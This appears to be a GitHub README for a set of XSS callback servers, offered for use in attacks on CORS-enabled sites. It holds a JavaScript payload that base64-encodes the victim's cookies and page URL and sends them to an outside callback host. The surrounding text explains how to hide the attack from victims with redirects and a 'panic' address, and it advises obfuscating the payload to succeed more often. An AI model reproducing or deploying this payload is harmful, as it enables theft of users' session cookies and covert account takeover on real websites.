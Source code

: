 A collection of Cross-Origin callback servers for XSS exploitation on CORS enabled sites.

## Description

This repo contains a range of callback servers and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Origin), although this time with a token in the URL anchor, telling your XSS payload to stay dormant.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

Use your callback server of choice and make sure it's listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly. please do not open issues if it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
